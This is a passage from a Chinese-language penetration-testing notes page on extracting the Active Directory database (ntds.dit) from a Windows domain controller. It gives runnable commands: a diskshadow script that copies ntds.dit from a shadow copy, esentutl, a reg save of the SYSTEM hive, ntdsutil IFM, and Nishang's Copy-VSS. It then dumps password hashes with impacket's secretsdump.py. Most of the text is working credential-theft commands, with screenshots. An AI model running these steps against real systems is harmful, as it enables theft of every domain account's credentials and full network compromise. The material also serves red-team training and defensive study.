 ![2021-07-09_145109](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-09_145109.jpg)

**方法三**

```cmd
diskshadow /s c:\hello.txt
esentutl /p /o c:\ntds.dit

reg save hklm\system c:\SYSTEM
```

文件内容如下：

```cmd
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% k:
exec "c:\Windows\System32\cmd.exe" /c copy K:\Windows\NTDS\ntds.dit c:\ntds.dit
delete shadows all
list shadows all
reset
exit    
```

![2021-07-09_150726](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-09_150726.jpg)

**方法四**

```cmd
ntdsutil "ac i ntds" "ifm" "create full c:/test" q q
```

![2021-07-09_150934](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-09_150934.jpg)

**方法五**

```cmd
#Nishang的脚本
import-module .\Copy-VSS.ps1
Copy-vss
```



##### 1.5.1.5 ntds.dit文件分析

**方法一** 

使用impacket中的脚本secretsdump.py

```shell
https://github.com/SecureAuthCorp/impacket/releases/download/impacket_0_9_23/impacket-0.9.23.tar.gz

secretsdump.py -ntds.dit -system system.hive LOCAL
```

![2021-07-09_155803](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-09_155803.jpg)
